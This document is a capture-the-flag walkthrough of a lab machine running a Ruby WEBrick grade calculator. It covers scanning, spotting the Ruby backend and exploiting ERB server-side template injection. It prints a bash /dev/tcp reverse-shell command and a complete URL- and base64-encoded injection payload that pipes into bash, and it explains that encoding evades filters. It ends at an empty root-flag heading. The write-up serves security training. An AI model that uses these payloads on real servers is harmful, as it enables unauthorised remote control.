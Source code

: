 # Tutorial

Note: For better understanding I recommend reading first "Headless" machine as I explain some fundamentals there.

Let's start pinging:

(pic1)

Receives packets. Now let's start scanning the domain:

(pic2)

3 open ports. One ssh, http and http-alt. Let's analyze the http because it is a good way to start analyzing the webserver site. We begin by using gobuster to analyze the possible directories in the domain:

(pic3)

The URLs were analyzed and couldn't find any useful information on those URLs. Let's enter manually into the site:

(pic6)

The webpage is an interactive calculator. Visiting "About Us" and "Calculate your weighted grade" we find that there is a input section that interact with the site.

(pic7)

Let's get more information about this site to infere what kind of attacks is this site vulnerable to:

(pic4)

Observe that the site contains `Content-Type: text/html;charset=utf-8` and `Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`. So this developer must have used Ruby to develop the site. Let's analyze the content:

(pic8)

There are no clues that the frontend is running Ruby (no `<% %>/erb/ruby/rhtml` keywords). As far as the analysis can go, it seems a normal html site. Nonetheless, from the previous pictures we know that the server is using WEBrick 1.7.0, which is a Ruby-based web server. This must be specifying that the backend is running Ruby.

Let's look on Google a bit of information by typing "server-side template injection ruby" to see if there is a way to inject malicious code. Checking on Github you can find "Ruby" section in this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=%5D).toArray())%20%7D%7D-,Ruby,-Ruby%20%2D%20Basic%20injections)

The only way we have to introduce a payload into the webserver is through the interactive calculator. So let's play with it obbeying its requirements described at the bottom. Using burpsuite and analyzing the request. We can observe that we can introduce a payload into the webserver. Nonetheless, we must know that we cannot use the same payload technique we used in Headless because Perfection is based on Ruby. Moreover, in one of the pictures we can observe that has XSS injection: Blocked. So instead of doing an XSS injection to get admin privileges, we are going to try to get a reverse shell to the Ruby webserver. The burpsuite analysis is the following:

(pic9)

#### Thinking about the payload

Now comes the tricky part of this machine. What would be the correct payload (among the possible ones) for this server?

Reading the previous URL, we find they have a specific case for ERB basic injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=ERB%3A-,%3C%25%3D%207%20*%207%20%25%3E,-Slim%3A
What is an ERB in Ruby? ERB (Embedded Ruby) is a templating system built into Ruby that allows you to embed Ruby code directly into your text files, including HTML, XML, or even plain text documents.

So, we know that the site uses html content, but the backend uses Ruby. So it is highly likely that the this ERB injection will work. We will embed an ERB command injection into the html site for the server to interpretate the command and get the reverse shell.

In the URL they show the case `<%= 7 * 7 %>`.
Nonetheless our goal is to inject a reverse shell into the Ruby webserver, not multiplying. So in Ruby terminology would be something of style:
`<%= system("echo + payload");=>'.
Also, when performing an ERB injection in a Ruby-based web application, URL encoding is necessary because the payload nedds to be sent as part of an HTTP request. So both the payload and the command injection must be URL encoded.
Reading this documentation (in Spanish) https://www.uv.es/jac/guia/hexawin.htm
The command injection must be as follows:
`<%25%3dsystem("echo+URLencoded(payload);%25>`.

Now is the moment to insert the payload. Let's prepare it.

##### The Payload

The payload used is going to be the same as in the previous machine `Headless`. The command is the following:
```
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
`bash -i` starts an interactive bash shell
`>& /dev/tcp/{IP}/{port} 0>&1`: Redirects the input and output of the bash shell (target) to a TCP connection to {IP} on port {port} (to our netcat listerner).

This effectively sets up a reverse shell, where the compromised server connects back to the attacker's machine, giving the attacker remote control over the server.

You must be aware that you cannot inject the payload directly. It is necessary to encode it into Base64. Why? Shell commands often contain special characters that could be misinterpreted by the server or web application. Also, characters like spaces or special symbols (<, >, &) can break the command or be deleted by security mechanisms from the server. So, encoding the command in base64 makes it less likely to be detected and blocked by such filters because the payload appears as a harmless string of alphanumeric characters. So, using the reasoning explained by encoding the reverse shell injection command into Base64 and later into URL encoding, the outcome is as follows:

(pic10)

##### The listener

Now, time to set up the listener:

(pic11)

##### Inject the reverse Shell

Time to inject the reverse shell. Using our previously encoded payload (first into base64 and later into URL encode) the final command injection is as follows:

category1=test1%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1

Why %0A at the beginning of the payload? For Ruby to interpretate test1 and then independently the payload as a newline.
The part `|+base64+-d+|+bash`in the injection payload is used to decode a base64-encoded string and then execute it as a shell command.
1. First ruby decodes the string in URL format
2. Then the first pipe `|` orders to decode the base64-encoded string
3. The result is then sent to a second pipe `|` that takes the decoded output and passes it as input to the `bash` command.
4. `bash` executes the input as a shell script

Open burp-suite again. Fill some data into the burp-browser (with the intercept on) and submit it. You will see the request stopped on burp-suite. Right-click and select "send to repeater". Edit the request there and add the payload encoded. Click on "Send". Open the terminal where your netcat listener is open:

(pic13)

Bingo. You got access to the webserver application. Now playing around like I did in the previous picture you can get the user flag.

#### Root flag

